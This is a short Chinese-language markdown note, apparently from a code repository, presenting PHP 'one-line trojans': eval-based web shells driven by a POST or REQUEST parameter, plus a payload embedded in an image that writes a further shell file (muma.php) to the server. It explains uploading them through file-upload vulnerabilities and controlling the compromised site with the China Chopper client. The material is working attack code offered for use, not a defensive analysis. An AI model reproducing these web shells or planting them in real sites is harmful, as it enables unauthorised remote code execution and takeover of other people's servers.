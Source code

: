### 最简单的一句话木马

>  <?php @eval($_POST['attack']) ?>
>
>  <?pgp @eval($_REQUEST[777])?>

​	【基本原理】利用文件上传漏洞，往目标网站中上传一句话木马，然后你就可以在本地通过中国菜刀chopper.exe即可获	 取和控制整个网站目录。**@**表示后面即使执行错误，也不报错。**eval（）**函数表示括号内的语句字符串什么的全都当做	 代码执行。$_POST['attack']表示从页面中获得attack这个参数值,attack就是连接密码

### 较高级图片木马

> <?php fputs(fopen('muma.php','w'),'<?php @eval($_POST[hack]);?>'); ?>
>
> fputs() 函数写入文件（可安全用于二进制文件）
>
> fputs() 函数是 [fwrite()](https://www.w3school.com.cn/php/func_filesystem_fwrite.asp) 函数的别名。
>
> fopen() 函数打开文件或者 URL
>
> 在图片中添加Php代码创建一个muma.php文件以w的形式打开，写的内容就是
>
> <?php @eval($_POST[hack]);?>这句一句话木马